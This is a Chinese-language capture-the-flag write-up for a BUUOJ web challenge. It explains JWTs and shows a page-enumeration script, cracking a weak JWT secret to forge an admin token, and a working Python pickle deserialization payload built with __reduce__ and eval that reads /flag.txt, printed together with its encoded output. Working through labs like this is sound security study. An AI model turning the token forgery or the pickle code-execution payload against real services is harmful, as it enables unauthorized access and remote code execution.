 小黑子题目，看到有一行提示：

`ikun们冲鸭,一定要买到lv6!!!`

加上下面是各种等级的购买页面，我们要找到lv6购买

首先注册一个账号然后登录，

![image-20250916095413188](https://raw.githubusercontent.com/ssaa769/typora-images/main/typora/image-20250916095413188.png)

有余额就意识到想买没那么简单，钱估计是不够的。

改变销售页面的参数是`/shop?page=1`，我们爆破page的值，直到找到lv6为止

```python
import requests

base_url = 'http://548940ec-2162-4653-8de1-370f9853636e.node5.buuoj.cn:81/shop?page={}'

for i in range(1,500):
    payload = base_url.format(i)
    r = requests.get(url=payload)
    if 'lv6.png' in r.content.decode():
        print(f"find lv6 in page {i}")
        break
        
        
find lv6 in page 181
```

![image-20250916100101685](https://raw.githubusercontent.com/ssaa769/typora-images/main/typora/image-20250916100101685.png)

果然是买不起的，我们先点购买抓包看看

![image-20250916101248020](https://raw.githubusercontent.com/ssaa769/typora-images/main/typora/image-20250916101248020.png)

看到cookie中有JWT字段，那我们目的就是破解这个JWT了

先讲讲JWT，它的全称是JSON WEB TOKEN。它的出现是为了解决无状态问题，从在服务端用session存储信息变成在客户端用JWT存放。JWT 由三部分组成，用点号（.）分隔，格式为：`Header.Payload.Signature`

header通常包含下面两个值

```
{
  "alg": "HS256",
  "typ": "JWT"
}
```

要base64编码一下

payload是数据载荷，就是你要传输的数据：

```
{
  "sub": "1234567890",
  "name": "John Doe",
  "admin": true,
  "iat": 1516239022
}
```

也要base64加密

最后是最重要的，就是用在header中 声明的算法进行签名，一般如下

```
HMACSHA256(
  base64UrlEncode(header) + "." +
  base64UrlEncode(payload),
  secret)
```

这个密钥只要服务器知道，服务器拿到JWT后用密钥对前两部分计算签名，如果和JWT中的签名一样，就认为数据没有被篡改

注意两点：

1. JWT前两部分都是只base64编码，本质就是明文传输，不能保密
2. JWT最大问题是服务器签发后不能收回，因此要设置一个有效期

这里我们的目标就是爆破出密钥，然后修改payload。对JWT前两部分进行base64解码，如下：

```
b'{"alg":"HS256","typ":"JWT"}'
b'{"username":"orange"}'
```

目标应该就是username，改成admin，我们来爆破密钥

这里使用了一个工具c-jwt-cracker

![image-20250916112243779](https://raw.githubusercontent.com/ssaa769/typora-images/main/typora/image-20250916112243779.png)

密钥是`1Kun`

我们重新构造一个用户名为admin的JWT，然后修改discount折扣，即可访问重定向到的/b1g_m4mber

源码中给了zip备份，下载审计源码

```
    def post(self, *args, **kwargs):
        try:
            become = self.get_argument('become')
            p = pickle.loads(urllib.unquote(become))
            return self.render('form.html', res=p, member=1)
        except:
            return self.render('form.html', res='This is Black Technology!', member=0)
```

在admin.py中有这样一段代码，其中`p = pickle.loads(urllib.unquote(become))`而become是我们可控的。这就形成了一个pickle反序列化漏洞。我们利用`__reduce__`也就是R指令写入：

```python
import pickle
import urllib

class payload(object):
    def __reduce__(self):
       return (eval, ("open('/flag.txt','r').read()",))

a = pickle.dumps(payload())
a = urllib.quote(a)
print a

c__builtin__%0Aeval%0Ap0%0A%28S%22open%28%27/flag.txt%27%2C%27r%27%29.read%28%29%22%0Ap1%0Atp2%0ARp3%0A.
```

填充一下become字段即可获得flag